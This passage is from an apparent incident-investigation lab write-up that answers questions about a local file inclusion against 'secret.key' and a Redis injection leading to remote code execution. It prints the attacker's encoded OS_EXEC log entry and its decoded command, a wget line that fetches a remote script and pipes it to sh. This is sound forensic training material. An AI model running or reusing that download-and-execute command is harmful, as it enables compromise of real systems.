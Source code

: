 12. **What is the attack name the endpoint is vulnerable to?**
As mentioned in the answer for question 10, the attack is called `local file inclusion`. 

13. **What is the name of the file that was targeted the last time the vulnerable endpoint was exploited?**
The last filename that was exploited using this tactic was `secret.key`. 

![image thirteen](./Images/Pasted%20image%2020250909160004.png)

14. **Finally, the attacker uses the sensitive information obtained earlier to create a special command that allows them to perform Redis injection and gain RCE on the system. What is the command string?**
Reviewing the Redis logs, we can see at the end a long encoded string being passed to `OS_EXEC`. The full line is `OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb`.

![image fourteen](./Images/Pasted%20image%2020250909160115.png)

15. **Once decoded, what is the command?**
This string can be decoded using CyberChef; the majority of it was Base64, however there are some remnants that won't decode. The final command that can be seen is `wget http://185.202.2.147/h4P1n4/run.sh -O- | sh`.

